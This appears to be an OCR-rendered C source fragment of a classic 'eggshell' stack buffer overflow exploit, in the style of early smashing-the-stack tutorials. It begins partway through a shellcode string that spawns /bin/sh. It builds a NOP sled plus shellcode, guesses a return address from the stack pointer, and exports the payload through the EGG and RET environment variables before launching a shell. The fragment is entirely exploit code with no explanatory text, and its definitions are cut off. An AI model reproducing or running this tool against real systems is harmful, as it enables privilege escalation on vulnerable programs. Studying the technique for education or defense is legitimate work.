 ```c
 "\x80\xe8\xdc\xff\xff\xff/bin/sh";


unsigned long get_esp(void)
{
   __asm__("movl %esp,%eax");
}

int main(int argc, char *argv[])
{
   char *buff, *ptr, *egg;
   long *addr_ptr, addr;
   int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
   int i, eggsize=DEFAULT_EGG_SIZE;

   if (argc > 1) bsize = atoi(argv[1]);
   if (argc > 2) offset = atoi(argv[2]);
   if (argc > 3) eggsize = atoi(argv[3]);

   if (!(buff = malloc(bsize))) {
     printf("Can't allocate memory.\n");
     exit(0);
   }

   if (!(egg = malloc(eggsize))) {
     printf("Can't allocate memory.\n");
     exit(0);
   }

   addr = get_esp() - offset;

   printf("Using address: 0x%x\n", addr);

   ptr = buff;
   addr_ptr = (long *) ptr;
   for (i = 0; i < bsize; i+=4)
     *(addr_ptr++) = addr;

   ptr = egg;
   for(i = 0; i < eggsize - strlen(shellcode) - 1; i++)
     *(ptr++) = NOP;
   for(i = 0; i < strlen(shellcode); i++)
     *(ptr++) = shellcode[i];

   buff[bsize - 1] = '\0';
   egg[eggsize - 1] = '\0';
   memcpy(egg,"EGG=",4);
   putenv(egg);
   memcpy(buff,"RET=",4);
   putenv(buff);
   system("/bin/bash");
}
```
